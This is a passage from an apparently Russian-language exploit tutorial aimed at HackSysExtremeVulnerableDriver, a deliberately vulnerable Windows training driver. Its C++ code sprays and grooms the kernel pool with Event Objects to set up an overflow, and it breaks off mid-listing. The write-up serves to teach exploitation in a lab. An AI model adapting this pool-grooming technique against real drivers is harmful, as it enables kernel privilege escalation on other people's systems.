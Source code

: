 ## [](#header-2)Выполняем план

Делаем дыры в блоке, чтобы наш буфер расположился там между Event Objects. Мы знаем, что для 0x200 дырки наш нужно освободить 8 объектов, следуя @FuzzySec будем освобождать 8 хендлов Event Objects каждые 0x16 хендлов в нашем векторе. 


```cpp
#include <iostream>
#include <vector>
#include <Windows.h>

using namespace std;

#define DEVICE_NAME         "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL               0x22200F

vector<HANDLE> defragment_handles;
vector<HANDLE> sequential_handles;

int main() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver\n";
        exit(1);
    }

    cout << "[>] Grabbed handle to HackSysExtremeVulnerableDriver: " << hex << hFile << "\n";





    cout << "[>] Spraying pool to defragment...\n";
    for (int i = 0; i < 10000; i++) {

        HANDLE result = CreateEvent(NULL, 0, 0, L"");

        if (!result) {
            cout << "[!] Error allocating Event Object during defragmentation\n";
            exit(1);
        }

        defragment_handles.push_back(result);
    }
    cout << "[>] Defragmentation spray complete.\n";
    cout << "[>] Spraying sequential allocations...\n";

    for (int i = 0; i < 10000; i++) {

        HANDLE result = CreateEvent(NULL, 0, 0, L"");

        if (!result) {
            cout << "[!] Error allocating Event Object during sequential.\n";
            exit(1);
        }
```